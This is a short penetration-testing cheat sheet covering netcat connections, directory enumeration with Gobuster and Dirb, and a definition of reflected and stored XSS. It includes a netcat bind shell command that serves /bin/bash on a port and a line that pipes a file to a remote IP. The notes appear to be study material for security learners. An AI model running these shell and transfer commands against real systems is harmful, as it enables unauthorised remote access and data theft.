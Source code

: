 ### Netcat (HTTP)

Can be used to open a raw connection to a service port

```
nc -h
nc -v www.ferrari.com 80
GET / HTTP/1.1
Host: www.ferrari.com


```

### Netcat 

```
#Connection
nc -lvp <port> #tcp
nc -lvup <port> #udp
nc -v <ip> <port> #tcp
nc -vu <ip> <port> #udp

#Send data
nc -lvp 8888 > received.txt
cat tobesent.txt | nc -v <ip> 8888

#Bind Shell
nc -lvp <port> -e /bin/bash
nc -v <ip> <port>

/bin/sh
```



### Directory and File Enumeration

Pick your favorite URI Enumeration tool
-   Dirbuster - GUI
-   Gobuster - fast, multi-threaded scanner
	- `gobuster -e -u http://192.168.0.155/ -w /usr/share/wordlists/dirb/common.txt`
-   Dirb - recursively scans directories
	- `dirb http://192.168.1.224/ /usr/share/wordlists/dirb/common.txt`

### XSS

-   **Reflected XSS:** Injected payload causes the website to reflect a change back to you, but it is not permanent and will disappear once the page has been refreshed
    
-   **Persistent/Stored XSS:** Injected payload is stored in the website’s server and is called every time a user visits the webpage. Affects multiple users. Typically embedded in forum posts.

Look to exploit user input coming from:

-   Request headers
-   Cookies
-   Form inputs
-   POST parameters
-   GET parameters
